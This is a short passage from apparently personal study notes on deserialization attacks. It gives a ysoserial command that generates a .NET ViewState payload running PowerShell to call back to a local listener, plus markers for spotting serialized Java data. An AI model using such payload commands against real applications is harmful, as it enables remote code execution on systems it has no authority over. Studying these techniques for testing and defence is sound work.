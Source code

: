     ![Untitled](../assets/img/study/attackserialization/Untitled%2013.png)
    
- `ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"`
    
    ![Untitled](../assets/img/study/attackserialization/Untitled%2014.png)
    

For IIS users, the current default settings of IIS are to generate the key at runtime, and it’s different for each application. Which means that the viewstate parameter will change. 

## Serialization in Java

---

*When assessing java-based WebAPP should pay attention to **binary data***

- Starts with: `,,aced0005` (hex) / `rO0aB` (base64)
- Looks like a list of java classes: `org.apache.something` / `java.lang.String`
